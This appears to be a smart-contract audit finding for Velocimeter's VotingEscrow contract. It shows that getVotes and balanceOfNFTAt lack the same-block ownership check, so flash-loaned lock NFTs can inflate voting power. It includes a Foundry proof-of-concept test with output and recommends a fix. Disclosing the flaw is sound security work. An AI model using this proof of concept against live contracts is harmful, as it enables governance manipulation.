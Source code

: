 Macho Pine Lemur

High

# Malicious Users Could Flash-loan the Vote Escrow NFTs to Inflate the Voting Balance of Their Accounts

## Summary

Voting balance of an account can be inflated using flash-loans.

## Vulnerability Detail

The `balanceOfNFT()` inside the VotingEscrow contract first checks if any ownership change of a NFT ID is in the current block or not, and returns zero if it is changed. 
This check is necessary to have newly transferred NFTs with zero voting balances to prevent someone from flash-loaning and inflating their voting balance.

```Solidity
    function balanceOfNFT(uint _tokenId) external view returns (uint) {
        if (ownership_change[_tokenId] == block.number) return 0;
        return _balanceOfNFT(_tokenId, block.timestamp);
    }
```
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1031-L1034

However, this check is not there in `balanceOfNFTAt()` and `balanceOfAtNFT()` functions:

```Solidity
    function balanceOfNFTAt(uint _tokenId, uint _t) external view returns (uint) {
        return _balanceOfNFT(_tokenId, _t);
    }
```

As a result, Velocimetery or some external protocols that try to use `balanceOfNFTAt()` and `_balanceOfNFT()` external functions to find voting balance will return different voting balances for the same NFT ID depending on which function they called.

```Solidity
    function getVotes(address account) external view returns (uint) {
        uint32 nCheckpoints = numCheckpoints[account];
        if (nCheckpoints == 0) {
            return 0;
        }
        uint[] storage _tokenIds = checkpoints[account][nCheckpoints - 1].tokenIds;
        uint votes = 0;
        for (uint i = 0; i < _tokenIds.length; i++) {
            uint tId = _tokenIds[i];
            votes = votes + _balanceOfNFT(tId, block.timestamp);
        }
        return votes;
    }
```

## Proof of Concept

Consider adding this test to `VotingEscrow.t.sol`:

```Solidity
    function testVoteInflationByTransferToken() public {
        address user1 = address(0x101);
        address user2 = address(0x102);

        deal(address(flowDaiPair), user1, 100 ether);
        deal(address(flowDaiPair), user2, 1000000 ether);
        deal(address(FLOW), user1, 100 ether);
        deal(address(FLOW), user2, 100 ether);
        

        vm.startPrank(user1);
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint256 tokenId = escrow.create_lock(TOKEN_1, MAXTIME);
        assertEq(escrow.ownerOf(tokenId), user1);
        console.log("balanceOfToken(tokenId)   :", escrow.balanceOfNFT(tokenId));
        console.log("getVotes(user1)           :", escrow.getVotes(user1));
        console.log("getVotes(user2)           :", escrow.getVotes(user2));

        // assertEq(escrow.balanceOfNFT(tokenId), getMaxVotingPower(TOKEN_1, escrow.locked__end(tokenId)));
        assertEq(escrow.balanceOfNFT(tokenId), escrow.balanceOfNFTAt(tokenId, block.timestamp));
        assertEq(escrow.balanceOfNFT(tokenId), escrow.getVotes(user1));
        assertEq(escrow.getVotes(user2), 0);

        vm.stopPrank();

        // Take a flashloan of veALCX
        vm.startPrank(user2);
        flowDaiPair.approve(address(escrow), type(uint256).max);
        console.log("\nTake a flashloan of veALCX token");
        uint256 tokenId2 = escrow.create_lock(TOKEN_1M, MAXTIME);
        console.log("Created VeALCX with 1M locked tokens");
        console.log("getVotes(user2)           :", escrow.getVotes(user2));
        // assertEq(escrow.balanceOfNFT(tokenId2), getMaxVotingPower(TOKEN_1M, escrow.locked__end(tokenId2)));

        // Transferring tokenId2 from user2 to user1
        console.log("\nTransferring flashloaned tokenId2 from user2 to user1");
        escrow.safeTransferFrom(user2, user1, tokenId2);
        assertEq(escrow.ownerOf(tokenId2), user1);
        vm.stopPrank();

        console.log("balanceOfToken(tokenId)   :", escrow.balanceOfNFT(tokenId));
        console.log("balanceOfToken(tokenId2)  :", escrow.balanceOfNFT(tokenId2));
        console.log("balanceOfTokenAt(tokenId2):", escrow.balanceOfNFTAt(tokenId2, block.timestamp));
        console.log("getVotes(user1)           : %s <= Inflated voting power", escrow.getVotes(user1));
        console.log("getVotes(user2)           :", escrow.getVotes(user2));

        assertEq(escrow.balanceOfNFT(tokenId2), 0);
        assertNotEq(escrow.getVotes(user1), escrow.balanceOfNFT(tokenId) + escrow.balanceOfNFT(tokenId2)); // Protects the ownership change
        assertEq(escrow.getVotes(user1), escrow.balanceOfNFT(tokenId) + escrow.balanceOfNFTAt(tokenId2, block.timestamp)); // Not protecting

        vm.stopPrank();
    }
```

Output of the test:

```Markdown
Ran 1 test for test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testVoteInflationByTransferToken() (gas: 1489856)
Logs:
  balanceOfToken(tokenId)   : 999999968174574804
  getVotes(user1)           : 999999968174574804
  getVotes(user2)           : 0

Take a flashloan of veALCX token
  Created VeALCX with 1M locked tokens
  getVotes(user2)           : 999999968203093174574804

Transferring flashloaned tokenId2 from user2 to user1
  balanceOfToken(tokenId)   : 999999968174574804
  balanceOfToken(tokenId2)  : 0
  balanceOfTokenAt(tokenId2): 999999968203093174574804
  getVotes(user1)           : 1000000968203061349149608 <= Inflated voting power
  getVotes(user2)           : 0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.85ms (2.13ms CPU time)
```

## Impact

Users can inflate their voting power:

1. Which they can use to vote for a malicious governance proposal
2. Also, the same attack can be used to alter the `tokenURI`.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1292-L1304
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1017-L1029

## Tool used

Manual Review

## Recommendation

Consider implementing a flashloan protection check inside the `_balanceOfNFT()` function in the VotingEscrow contract